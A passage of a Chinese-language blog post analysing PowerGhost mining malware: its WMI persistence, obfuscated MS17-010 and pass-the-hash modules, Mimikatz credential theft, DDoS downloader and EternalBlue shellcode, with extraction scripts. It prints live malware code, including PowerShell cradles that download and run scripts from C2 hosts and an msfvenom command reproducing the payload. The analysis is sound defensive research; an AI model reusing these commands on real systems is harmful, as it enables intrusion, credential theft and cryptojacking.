        $cmdmon = "powershell -NoP -NonI -W Hidden `"`$scriptPath = ((new-object net.webclient).DownloadString('http://$nic/w/antitrojan.ps1'));Invoke-Command -ScriptBlock ([scriptblock]::Create(`$scriptPath)) -ArgumentList 'a'`""
    }
    Invoke-Command -ScriptBlock ([scriptblock]::Create($scriptPath)) -ArgumentList "a"
    $vbs = New-Object -ComObject WScript.Shell
    $vbs.run($cmdmon,0)
    Invoke-Brexit -scccccc $sc -ipsu $ipsu -i17 $i17 -nic $nic
    exit
}
```

## \$Script

这是 WMI 的持久化脚本，从 `antitrojan.ps1` 里的 `$Script` 变量复制出来。代码没有经过混淆，我把它放到了 [antitrojan_wmi_script.ps1](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/deobfuscated/antitrojan_wmi_script.ps1)。

它的逻辑与 `vercheck.ps1` 和 `antitrojan.ps1` 有很多相似的部分：

- 启动 Windows 服务
- 选择 C2 服务器
- 版本检查与更新
- 从 WMI 属性获取漏洞利用函数并执行
- 清除竞争恶意软件的持久化
- 运行 DDos 模块

不同的有以下几个地方：

98-114 行 和 127-132 行，检查是否有 PowerShell 进程连接到远程端口 80 或 14444，如果没有则重新启动挖矿程序

```powershell linenums="98"
[array]$psids= get-process -name powershell |sort cpu -Descending| ForEach-Object {$_.id}
$tcpconn = netstat -anop tcp
$exist=$False
if ($psids -ne $null)
{
    foreach ($t in $tcpconn)
    {
        $line =$t.split(' ')| ?{$_}
        if ($line -eq $null)
        {continue}
        if (($psids -contains $line[-1]) -and $t.contains("ESTABLISHED") -and ($t.contains(":80") -or $t.contains(":14444")))
        {
            $exist=$true
            break
        }
    }
}
```

```powershell linenums="127"
if (!$exist -and ($psids.count -le 8))
{
    $cmdmon="powershell -NoP -NonI -W Hidden `"`$mon = ([WmiClass] 'root\default:Window_Core_Flush_Cach').Properties['mon'].Value;`$funs = ([WmiClass] 'root\default:Window_Core_Flush_Cach').Properties['funs'].Value ;iex ([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String(`$funs)));Invoke-Command  -ScriptBlock `$RemoteScriptBlock -ArgumentList @(`$mon, `$mon, 'Void', 0, '', '')`""
    $vbs = New-Object -ComObject WScript.Shell
    $vbs.run($cmdmon,0)
}
```

116 行使用 `KillBot` 函数终止其他恶意软件：

```powershell linenums="116"
KillBot('Window_Core_Flush_Cach')
```

117-126 行检查并终止连接到常见挖矿池端口 `3333`、`5555`、`7777` 的进程：

```powershell linenums="117"
foreach ($t in $tcpconn)
{
    $line =$t.split(' ')| ?{$_}
    if (!($line -is [array])){continue}
    if (($line[-3].contains(":3333") -or $line[-3].contains(":5555") -or $line[-3].contains(":7777")) -and $t.contains("ESTABLISHED"))
    {
        $evid=$line[-1]
        Get-Process -id $evid | stop-process -force
    }
}
```

134-148 行定期窃取凭据发动攻击：

- 计算当前时间戳并与 WMI 中存储的上次执行时间 `flag` 比较
- 如果时间差大于 18000 秒（5 小时），则更新时间戳并执行攻击操作
    - 使用 Mimikatz (`$mimi`) 获取凭据
    - 调用 `Invoke-Brexit` 函数执行 ShellCode

```powershell linenums="134"
$timenow = (New-TimeSpan -Start (Get-Date "01/01/1970") -End (Get-Date)).TotalSeconds
$flagtime = ([WmiClass] 'root\default:Window_Core_Flush_Cach').Properties['flag'].Value
if(($timenow-$flagtime) -gt 18000){
    $StaticClass=New-Object Management.ManagementClass('root\default:Window_Core_Flush_Cach')
    $StaticClass.SetPropertyValue('flag' ,$timenow)
    $StaticClass.Put() | Out-Null
    $NTLM=$False
    $mimi = ([WmiClass] 'root\default:Window_Core_Flush_Cach').Properties['mimi'].Value
    $a, $NTLM= Get-creds $mimi $mimi
    $ipsu = ([WmiClass] 'root\default:Window_Core_Flush_Cach').Properties['ipsu'].Value
    $i17 = ([WmiClass] 'root\default:Window_Core_Flush_Cach').Properties['i17'].Value
    $scba= ([WmiClass] 'root\default:Window_Core_Flush_Cach').Properties['sc'].Value
    [byte[]]$sc=[System.Convert]::FromBase64String($scba)
    Invoke-Brexit -scccccc $sc -ipsu $ipsu -i17 $i17 -nic $nic -a $a -NTLM $NTLM
}
```

## \$fffffff

`$fffffff` Base64 解码后是 PowerShell 脚本，分为三个部分：

```powershell
(New-obJECt io.sTREAMReAdEr(( New-obJECt SySTem.io.CoMpReSsiON.DEFLaTesTrEAm([iO.memoRyStreAm][sYsteM.ConVeRT]::frOMbaSE64StRInG('...' ) ,[syStem.io.cOMPRESsioN.comPRESsionmOde]::dECOMpResS )), [syStEM.TExT.encoDINg]::ascII) ).reaDtOeNd( ) | iNvOKe-exPresSIoN
( NEw-ObJEcT Io.cOMPReSsIoN.DefLATEStReaM( [sYSTEm.IO.mEmoRyStreaM][CoNVeRT]::fROmbAse64STRIng( '...' ) ,[syStEM.IO.coMPresSiON.COMprESSiONmODE]::deCoMPress )| %{ NEw-ObJEcT SYStEm.io.sTReamREADER($_ ,[TEXt.EnCodiNG]::aSCIi)} ).ReAdToeNd( )| .( $enV:ComsPeC[4,26,25]-JOIN'')
[STrIng]::JoIn('',('...'-SPLit'>' -SPlIt'r' -sPlIt 't' -splIt'q' -SPlit'y' -spLiT 'h' -sPliT '{' -sPLiT'K' |foreacH{ ( [ConVert]::toiNT16(( $_.tOsTRIng() ), 16)-As [cHar])}))| .((Gv '*MDr*').NAMe[3,11,2]-joIN'')
```

三个部分都使用 Base64 和 Deflate 混淆，与[vercheck.ps1 的混淆方式](#vercheckps1)一致，反混淆后都是 PowerShell 代码：

- 第一部分：漏洞利用的辅助函数，反混淆后的样本：[antitrojan_fffffff_1.ps1](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/deobfuscated/antitrojan_fffffff_1.ps1)
- 第二部分：定义了 `$Base64` 变量，解码后是 DLL 文件，反混淆后的样本：[antitrojan_fffffff_2.dll](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/deobfuscated/antitrojan_fffffff_2.dll)
- 第三部分：漏洞利用函数，反混淆后的样本：[antitrojan_fffffff_3.ps1](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/deobfuscated/antitrojan_fffffff_3.ps1)

### \$fffffff_1

脚本中定义了两个漏洞利用辅助函数：`Invoke-WMIExec` 和 `Invoke-SMBExec`，通过哈希传递攻击在远程系统上执行命令。

代码和 [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) 仓库代码极其相似，没有什么特殊的部分，不详细分析了。

### \$fffffff_2

DLL 文件，[VirtusTotal 报告为 `Renci.SshNet.dll`](https://www.virustotal.com/gui/file/f299b19864bffa87dd8a32ed500b28c41bfc78e9c6b080cf86cd453302b6c8cb)。

SSH 爆破时用到的 [SSH.NET](https://github.com/sshnet/SSH.NET) 库，版本 `2013.4.7`。

### \$fffffff_3

这是病毒的核心漏洞利用模块，有以下几个关键函数，以及一堆辅助函数组成：

| 函数名                | 功能描述                                             |
| --------------------- | ---------------------------------------------------- |
| `eb7`                 | 针对 Windows 7/2008/Vista 系统的 MS17-010 漏洞利用   |
| `eb8`                 | 针对 Windows 8/2012 系统的 MS17-010 漏洞利用变种     |
| `Test-Port`           | 测试指定 IP 地址的指定端口是否开放                   |
| `Download_File`       | 从指定 URL 下载文件到本地临时目录                    |
| `md5hash`             | 计算指定文件的 MD5 哈希值                            |
| `RunDDOS`             | 下载并执行远程载荷文件，处理更新标志和执行逻辑       |
| `KillBot`             | 检测并终止其他威胁，通过识别特定进程和命令行参数     |
| `Get-creds`           | 从系统中获取凭据信息，包括明文密码和 NTLM 哈希       |
| `Invoke-Brexit`       | 主攻击函数，协调整个感染过程，包括扫描、利用和传播   |
| `Invoke-Hydra`        | 多线程网络扫描和密码爆破框架，支持不同的扫描模式     |
| `GetIPs`              | 获取本地网络和常见网段 IP 地址，为扫描提供目标       |
| `VerifyC`             | 验证和补充发现的活跃网络地址                         |
| `TheBBBBBB`           | 扩展网络扫描范围，生成更多可能的网段                 |
| `IPTOIPS`             | 从网段掩码生成所有可能的 IP 地址                     |
| `GetNetEST`           | 分析系统已建立的网络连接发现新目标                   |
| `Get-MD4Hash`         | 生成凭据的 MD4 哈希（NTLM 格式），用于密码攻击       |
| `Invoke-SSHCommand`   | 通过 SSH 协议执行远程命令，用于 Linux 系统传播       |
| `Invoke-MSSQLCommand` | 通过 MSSQL 数据库执行远程命令，利用 xp_cmdshell 功能 |
| `Get-PassHashes`      | 从本地系统 SAM 数据库提取密码哈希，用于横向移动      |

大多函数能在网络上找到一模一样的副本，同时期的病毒也有用到相同的函数，比如：

- `$RemoteScriptBlock`: [Invoke-ReflectivePEInjection.ps1#L229](https://github.com/BC-SECURITY/Empire/blob/1b7b2a586ee605bfe417a047fe0af6bebc0395ab/empire/server/data/module_source/management/Invoke-ReflectivePEInjection.ps1#L229)
- `Get-PassHashes`: [Get-PassHashes.ps1#L16](https://github.com/xtr4nge/FruityC2/blob/6e9826569940c41fc24c692cbb7f5dceba60d956/modules/core/Get-PassHashes.ps1#L16)
- `make_smb1_anonymous_login_packet`: [Exploit-EternalBlue.ps1#L397](https://github.com/nettitude/PoshC2/blob/f6f13309188c9f6467867d4afd27aaefb70bd9b8/resources/modules/Exploit-EternalBlue.ps1#L397)

这些函数可能来自 C2 框架或漏洞利用工具，不详细进行分析了，只专注于病毒作者自定义的函数。

#### RunDDOS

52 行，`RunDDOS` 函数下载 `http://$nic/w/cohernece.txt` 和 `http://$nic/w/logos.png`，另存为 `cohernece.exe` 和 `java-log-9527.log`。

`cohernece.exe` 是加载器，`java-log-9527.log` 是 DDOS 程序，前者检测沙盒环境，如果不在沙盒环境则执行后者进行 DDOS 攻击。

```powershell linenums="52"
function RunDDOS([String]$FileName,[String]$Hash){
    $updateFlag = $False
    if ((teSt-`Pa`TH ("$env:temp\$FileName"))){
        $filehash = md5hash("$env:temp\$FileName")
        if( $filehash -eq $Hash){
            $updateFlag = $False
        }else{
            Remove-Item "$env:temp\$FileName" -recurse
            $updateFlag =  $True
        }
    }else{
        $updateFlag =  $True
    }
    if($updateFlag){
        DoWN`l`Oa`D_FiLE "http://$nic/w/cohernece.txt" "$FileName"
    }
    $tempfilepath = $env:temp.replace("\","\\")
    Get-WmiObject Win32_Process -Filter "ExecutablePath = '$tempfilepath\\$FileName'" | Invoke-WmiMethod -Name Terminate | Out-Null
    if ((teSt-`Pa`TH ("$env:temp\java-log-9527.log"))){
        Remove-Item "$env:temp\java-log-9527.log" -recurse
        Sl`EEp -Seconds 1
    }
    DoWn`loa`D`_F`ile "http://$nic/w/logos.png" ('jav'+'a-log-952'+'7.'+'log')
    Sl`EEp -Seconds 1
    Sta`RT`-PROCeSS -NoNewWindow "$env:temp\$FileName"
}
```

#### Invoke-Brexit

3726 行，`Invoke-Brexit` 函数是这个病毒的主控模块，负责协调整个攻击流程：

1. 初始化用户名和密码库（包括常见弱密码和从本地系统提取的哈希）
1. 扫描本地网络和常见子网以发现潜在目标
1. 针对发现的活跃主机，执行以下攻击：
    - 扫描开放的 SMB/SSH/MSSQL 服务端口
    - 对这些服务尝试凭据攻击和漏洞利用
    - SMB 服务：尝试凭据认证、命令执行，或 MS17-010 漏洞利用
    - SSH 服务：尝试弱密码登录并执行 Linux 命令
    - MSSQL 服务：尝试 `sa` 账户弱密码登录并执行命令
1. 成功感染后：让受感染主机连接到预设的C2服务器
1. 维护已攻击主机列表，避免重复攻击，最长运行 4.5 小时

当 SSH 爆破成功成功时，会下载 `http://$nic/shell` 程序对 Linux 主机进行感染，`shell` 程序的分析[这篇文章](https://www.freebuf.com/articles/system/219715.html)里有，我没能拿到样本 (´_ゝ\`)。

## \$miiiiii

样本：[antitrojan_miiiiii.exe](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/samples/antitrojan_miiiiii.exe)。

是 [Mimikatz](https://github.com/gentilkiwi/mimikatz)，版本如下：

```
mimikatz 2.1 (x86) built on Nov 10 2016 15:30:40
```

## \$sssssss

样本：[antitrojan_ssssssss.bin](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/samples/antitrojan_ssssssss.bin)。

是用在 `eb7` 和 `eb8` MS17-010 漏洞利用函数的 ShellCode 文件。

经过了 [\$fffffff_3](#fffffff_3) 的分析，我觉得作者的 ShellCode 也不会是自己手写的，更大概率是用工具生成。

于是我搜到了这个：[worawit/MS17-010/shellcode](https://github.com/worawit/MS17-010/tree/master/shellcode)，它提供了一个脚本，可以合并永恒之蓝 x86 和 x64 ShellCode，使得合并后的 ShellCode 不需要检测目标系统架构。

而在 `antitrojan_ssssssss.bin` 中有很明显的重复数据和重复 PowerShell payload，开头汇编指令也和脚本中生成的一致：

```asm title="$ r2 -b 32 -a x86 -qc 'pd 3' antitrojan_ssssssss.bin"
            0x00000000      31c0           xor eax, eax
            0x00000002      40             inc eax
        ┌─< 0x00000003      0f8453040000   je 0x45c
```

```python title="eternalblue_sc_merge.py" linenums="17"
fp.write("\x31\xc0\x40\x0f\x84" + pack("<I", len(sc_x86)))
```

这个汇编间接实现了架构检测的机制：

- 在 32 位系统上，`inc eax` 指令后零标志不会被设置，执行继续到 x86 ShellCode
- 在 64 位系统上，指令行为不同，零标志会被设置，导致跳过 x86 ShellCode 直接执行 x64 ShellCode

在 `eternalblue_sc_merge.py` 脚本中，最终的 ShellCode 是通过合并 32 位和 64 位 ShellCode 生成的。具体合并规则如下：

1. 对于 32 位系统：首先放置 32 位内核 ShellCode，然后是 32 位 Metasploit ShellCode。
1. 对于 64 位系统：首先放置 64 位内核 ShellCode，然后是 64 位 Metasploit ShellCode。

脚本中介绍的使用方法是这样：

```
$ cat sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin
$ cat sc_x86_kernel.bin sc_x86_msf.bin > sc_x86.bin
$ python eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
$ python eternalblue_exploit7.py 192.168.13.81 sc_all.bin
```

对应的 ShellCode 结构：

| 偏移量                               | 大小               | 内容                      | 描述                                                                                                                       |
| ------------------------------------ | ------------------ | ------------------------- | -------------------------------------------------------------------------------------------------------------------------- |
| 0                                    | 2 字节             | `\x31\xc0`                | `xor eax, eax` - 清零 `eax` 寄存器                                                                                         |
| 2                                    | 1 字节             | `\x40`                    | `inc eax` - 增加 `eax`值（在 x86 和 x64 上行为不同）                                                                       |
| 3                                    | 6 字节             | `\x0f\x84` + 4 字节长度值 | `jz <offset>` - 如果零标志被设置则跳转                                                                                     |
| 9                                    | sc_x86_kernel 长度 | x86 kernel shellcode      | [eternalblue_kshellcode_x86.asm](https://github.com/worawit/MS17-010/blob/master/shellcode/eternalblue_kshellcode_x86.asm) |
| 9 + sc_x86_kernel 长度               | sc_x86_msf 长度    | x86 msf shellcode         | msf payload                                                                                                                |
| 9 + sc_x86 长度                      | sc_x64_kernel 长度 | x64 kernel shellcode      | [eternalblue_kshellcode_x64.asm](https://github.com/worawit/MS17-010/blob/master/shellcode/eternalblue_kshellcode_x64.asm) |
| 9 + sc_x86 长度 + sc_x64_kernel 长度 | sc_x64_msf 长度    | x64 msf shellcode         | msf payload                                                                                                                |

所以要获得实际攻击者生成的 32 位和 64 位 ShellCode，只需要去除开头指令和内核 ShellCode。

识别内核 ShellCode 开头末尾位置，分离出 MSF ShellCode，正常流程是这样，但我懒。

懒人的直觉告诉我攻击者用 MSF payload `windows/exec` 生成 ShellCode，所以我尝试生成类似的 ShellCode 并与样本进行对比：

```
$ msfvenom -p windows/exec CMD="whoami" -f raw -o msf_windows_exec_x86.bin EXITFUNC=thread
$ msfvenom -p windows/x64/exec CMD="whoami" -f raw -o msf_windows_exec_x64.bin EXITFUNC=thread
```

```hexdump title="$ xxd msf_windows_exec_x86.bin"
00000000: fce8 8200 0000 6089 e531 c064 8b50 308b  ......`..1.d.P0.
00000010: 520c 8b52 148b 7228 0fb7 4a26 31ff ac3c  R..R..r(..J&1..<
00000020: 617c 022c 20c1 cf0d 01c7 e2f2 5257 8b52  a|., .......RW.R
00000030: 108b 4a3c 8b4c 1178 e348 01d1 518b 5920  ..J<.L.x.H..Q.Y
00000040: 01d3 8b49 18e3 3a49 8b34 8b01 d631 ffac  ...I..:I.4...1..
00000050: c1cf 0d01 c738 e075 f603 7df8 3b7d 2475  .....8.u..}.;}$u
00000060: e458 8b58 2401 d366 8b0c 4b8b 581c 01d3  .X.X$..f..K.X...
00000070: 8b04 8b01 d089 4424 245b 5b61 595a 51ff  ......D$$[[aYZQ.
00000080: e05f 5f5a 8b12 eb8d 5d6a 018d 85b2 0000  .__Z....]j......
00000090: 0050 6831 8b6f 87ff d5bb e01d 2a0a 68a6  .Ph1.o......*.h.
000000a0: 95bd 9dff d53c 067c 0a80 fbe0 7505 bb47  .....<.|....u..G
000000b0: 1372 6f6a 0053 ffd5 7768 6f61 6d69 00    .roj.S..whoami.
```

```hexdump title="$ xxd msf_windows_exec_x64.bin"
00000000: fc48 83e4 f0e8 c000 0000 4151 4150 5251  .H........AQAPRQ
00000010: 5648 31d2 6548 8b52 6048 8b52 1848 8b52  VH1.eH.R`H.R.H.R
00000020: 2048 8b72 5048 0fb7 4a4a 4d31 c948 31c0   H.rPH..JJM1.H1.
00000030: ac3c 617c 022c 2041 c1c9 0d41 01c1 e2ed  .<a|., A...A....
00000040: 5241 5148 8b52 208b 423c 4801 d08b 8088  RAQH.R .B<H.....
00000050: 0000 0048 85c0 7467 4801 d050 8b48 1844  ...H..tgH..P.H.D
00000060: 8b40 2049 01d0 e356 48ff c941 8b34 8848  .@ I...VH..A.4.H
00000070: 01d6 4d31 c948 31c0 ac41 c1c9 0d41 01c1  ..M1.H1..A...A..
00000080: 38e0 75f1 4c03 4c24 0845 39d1 75d8 5844  8.u.L.L$.E9.u.XD
00000090: 8b40 2449 01d0 6641 8b0c 4844 8b40 1c49  .@$I..fA..HD.@.I
000000a0: 01d0 418b 0488 4801 d041 5841 585e 595a  ..A...H..AXAX^YZ
000000b0: 4158 4159 415a 4883 ec20 4152 ffe0 5841  AXAYAZH.. AR..XA
000000c0: 595a 488b 12e9 57ff ffff 5d48 ba01 0000  YZH...W...]H....
000000d0: 0000 0000 0048 8d8d 0101 0000 41ba 318b  .....H......A.1.
000000e0: 6f87 ffd5 bbe0 1d2a 0a41 baa6 95bd 9dff  o......*.A......
000000f0: d548 83c4 283c 067c 0a80 fbe0 7505 bb47  .H..(<.|....u..G
00000100: 1372 6f6a 0059 4189 daff d577 686f 616d  .roj.YA....whoam
00000110: 6900                                     i.
```

可以看到 x86 的 payload 开头为 `fce88200`，而 x64 的 payload 开头为 `fc4883e4`，二者的末尾都是命令内容。这样的特征在 `antitrojan_ssssssss.bin` 正好能找到两段。

编写提取代码：

```python title="extract_msf_payload.py"
import struct

input_file = "antitrojan_ssssssss.bin"
output_x86 = "antitrojan_ssssssss_msf_x86.bin"
output_x64 = "antitrojan_ssssssss_msf_x64.bin"

with open(input_file, "rb") as f:
    data = f.read()

x86_length = struct.unpack("<I", data[5:9])[0]

header_size = 9
x86_start = header_size
x86_end = header_size + x86_length
x64_start = x86_end

x86_msf_signature = b"\xfc\xe8\x82\x00\x00\x00"
x64_msf_signature = b"\xfc\x48\x83\xe4\xf0\xe8"

x86_msf_offset = data[x86_start:x86_end].find(x86_msf_signature)
if x86_msf_offset != -1:
    x86_msf_start = x86_start + x86_msf_offset
    x86_msf_payload = data[x86_msf_start:x86_end]

    with open(output_x86, "wb") as f:
        f.write(x86_msf_payload)

    print(f"x86 MSF payload 提取成功（{len(x86_msf_payload)} 字节）")
    print(f"保存到：{output_x86}")

x64_msf_offset = data[x64_start:].find(x64_msf_signature)
if x64_msf_offset != -1:
    x64_msf_start = x64_start + x64_msf_offset
    x64_msf_payload = data[x64_msf_start:]

    with open(output_x64, "wb") as f:
        f.write(x64_msf_payload)

    print(f"x64 MSF payload 提取成功（{len(x64_msf_payload)} 字节）")
    print(f"保存到：{output_x64}")
```

分离出来的 MSF payload：

- [antitrojan_ssssssss_msf_x86.bin](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/deobfuscated/antitrojan_ssssssss_msf_x86.bin)
- [antitrojan_ssssssss_msf_x64.bin](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/deobfuscated/antitrojan_ssssssss_msf_x64.bin)

其中包含命令：

```powershell
cmd /c powershell -nop -noni -w hidden "$a=([string](Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding ));if(($a -eq $null) -or (!($a.contains('Systems Manage Filter')))) {IEX(New-Object Net.WebClient).DownloadString('http://185.234.218.40/vercheck.ps1 ')}"
```

即如果没有发现病毒持久化任务，则下载 [vercheck.ps1](#vercheckps1) 进行感染。

如果使用同样的命令生成 `windows/exec` ShellCode：

```
msfvenom -p windows/exec CMD='cmd /c powershell -nop -noni -w hidden "$a=([string](Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding ));if(($a -eq $null) -or (!($a.contains(\'Systems Manage Filter\')))) {IEX(New-Object Net.WebClient).DownloadString(\'http://185.234.218.40/vercheck.ps1 \')}" ' -f raw -o msf_windows_exec_x86.bin EXITFUNC=thread
```

则会获得与病毒 MSF payload 一模一样的结果：

```
$ sha256sum msf_windows_exec_x86.bin antitrojan_ssssssss_msf_x86.bin
adcc8a63a554f8d2689e9b1ec4db31e12132dcf0bfcccac7e1ca05708d5cd9a3  msf_windows_exec_x86.bin
adcc8a63a554f8d2689e9b1ec4db31e12132dcf0bfcccac7e1ca05708d5cd9a3  antitrojan_ssssssss_msf_x86.bin
```

## antivirus.php

Scriptlet 脚本，在 `antitrojan.ps1` 创建的计划任务中访问执行，样本：[antivirus.php](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/samples/antivirus.php)，内容如下：

```xml
<?XML version="1.0"?>
<scriptlet>
<registration
    progid="Test"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            ps  = "cmd.exe /c powershell.exe -nop -noni -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwBtAGEAaQBsAC4AdABvADAAbABzAC4AYwBvAG0AOgA0ADQAMwAvAHYAZQByAGMAaABlAGMAawAuAHAAcwAxACcAKQApAA==";
            new ActiveXObject("WScript.Shell").Run(ps,0,true);

        ]]>
</script>
</registration>
</scriptlet>
```

其中经过编码的 PowerShell 代码经 `From Base64` -> `Decode text(UTF16LE)` 解码后为：

```
$ echo "SQB...A==" | base64 -d | iconv -f utf16le -t utf8
IEX ((new-object net.webclient).downloadstring('http://mail.to0ls.com:443/vercheck.ps1'))
```

也就是从 C2 服务器上下载执行 [vercheck.ps1](#vercheckps1)。

## cohernece.txt

好吧，流量包里的数据不全，我没法提取出完整的 `cohernece.txt`。

从别的地方得知文件使用 [Themida](https://www.oreans.com/Themida.php) 打包，本来还想找个解包方法，然后反编译分析一下呢，看来得放弃了。

关于文件行为，[这篇文章](https://securelist.com/a-mining-multitool/86950/)有一些简略的信息：

> 脚本下载了两个 PE 模块，logos.png 和 cohernece.txt。前者被保存到硬盘上，命名为 java-log-9527.log，是一个用于执行 DDoS 攻击的可执行文件。
>
> 文件 cohernece.txt 使用了软件保护工具 Themida，并检查是否在虚拟环境中执行。如果检查未检测到沙盒，则 cohernece.txt 将文件 java-log-9527.log 用于执行。

微步沙箱样本：[cohernece.txt:f90bcf5b649ebb61d1b2a1a973c04312e3e72a71d4393ccbb12b9fa593637d62](https://s.threatbook.com/report/file/f90bcf5b649ebb61d1b2a1a973c04312e3e72a71d4393ccbb12b9fa593637d62)

## ver.txt

样本：[ver.txt](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/samples/ver.txt)。

病毒版本信息文件，这里是 `1.3`。算是比较老的版本，一些行为和功能与新版不太一样，但比较符合我遇到的那台主机情况。

## 参考

- [ThreatBook SandBox Report: vercheck.ps1(b09db8539a449f671eb2e3b73e573e82288d1fa0edbe001a7b8e8d982f36446c)](https://s.threatbook.com/report/file/b09db8539a449f671eb2e3b73e573e82288d1fa0edbe001a7b8e8d982f36446c)
- [ThreatBook SandBox Report: vercheck.ps1(4566d352c3f21b13b0b63dfb85525144df0e53bd9bfe77f0b4e03670f3295ad5)](https://s.threatbook.com/report/file/4566d352c3f21b13b0b63dfb85525144df0e53bd9bfe77f0b4e03670f3295ad5)
- [ThreatBook SandBox Report: antivirus[1].php(7c9f4dd19e10a964b683107e8d7c1409e1dc7873c141cdb130bd3326dd0f9980)](https://s.threatbook.com/report/file/7c9f4dd19e10a964b683107e8d7c1409e1dc7873c141cdb130bd3326dd0f9980)
- [ThreatBook SandBox Report: aantivirus03DHW5V7.php(d48a6910ee332526b10d077dc0194542e6639d5dc21188eb4f3e01c47108b966)](https://s.threatbook.com/report/file/d48a6910ee332526b10d077dc0194542e6639d5dc21188eb4f3e01c47108b966)
- [ANY.RUN: vercheck.ps1](https://app.any.run/tasks/e462cd67-38c3-46db-963c-6f940c1270c0#)
- [Securonix Threat Research Knowledge Sharing Series: Hiding the PowerShell Execution Flow](https://www.securonix.com/blog/hiding-the-powershell-execution-flow/)
- [WuKung病毒处置办法：Powershell无文件挖矿查杀方法](https://wukungt.github.io/2019/05/16/Powershell%E6%97%A0%E6%96%87%E4%BB%B6%E6%8C%96%E7%9F%BF%E6%9F%A5%E6%9D%80%E6%96%B9%E6%B3%95/)
- [Microsoft Learn: Windows Server/Windows/commands/regsvr32](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32)
- [Windows与Linux双平台无文件攻击：PowerGhost挖矿病毒最新变种感染多省份](https://www.freebuf.com/articles/system/219715.html)
- [SECURELIST: A mining multitool](https://securelist.com/a-mining-multitool/86950/)
